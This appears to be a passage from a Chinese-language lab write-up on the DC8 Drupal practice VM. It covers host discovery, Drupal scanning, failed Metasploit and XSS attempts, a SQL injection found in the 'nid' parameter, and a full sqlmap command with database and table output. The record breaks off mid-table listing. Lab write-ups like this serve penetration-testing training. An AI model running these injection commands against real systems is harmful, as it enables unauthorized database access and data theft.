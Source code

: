 ```yaml
---
title: DC8
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-21T16:07:46+08:00
categories: 
- 渗透测试
- 靶机练习
---
```


```
arp-scan -l 
==>
192.168.121.152
```

打开页面，该站点同样是由Drupal搭建的，与前两次不同的是，这次页面时一个报警信息，大致内容如下

```
在接下来的几周中，由于我们需要解决一些未解决的问题，本网站可能会受到干扰
```

说明该网站存在一些漏洞，先扫描端口

![nmap](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\nmap.png)

这次能出来的目录会多一些，查看一下都是些安装信息，扫描目录，仍然存在user目录，访问也同样只有登录口以及修改密码的接口，测试发现这里仍然存在admin用户，再次尝试Druupwn工具

![drupwn](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\drupwn.png)

能够看到版本为7.0，但是没有我们所需要的漏洞，换了一个更好![droopescan](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\droopescan.png)用的工具

能够测出来更详细的版本和目录信息，上msf测试两个比较可能的漏洞，都是利用失败了，接下来就只有手动测试，由于有留言板，所以尝试一下xss,看能不能拿到admin的cookie,打了半天也没有cookie的回显，admin查看留言的时间不确定，看看还有哪些地方可以利用，既然有登录框，很显然可以尝试sql注入，7.67也确实存在sql注入的cve，不过需要用户名和密码才能执行成功，先尝试一下登陆界面，没能注出来，看看哪里还有注入点

![nid](E:\笔记软件\笔记\渗透测试\靶机练习\DC8图库\nid.jpg)

发现nid存在页面的调用，看看这里有没有注入点，后面添加单引号，发现报错了，存在注入点，那就用sqlmap再跑一下nid

```
sqlmap -u 192.168.121.152/?nid=1 --random-agent --risk=3  --level=5 --dbs --keep-alive
```

成功得到数据库名

```
available databases [2]:
[*] d7db
[*] information_schema
```

接下来跑表，列和数据

```
table
Database: d7db
[88 tables]
+-----------------------------+
| filter                      |
| system                      |
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
```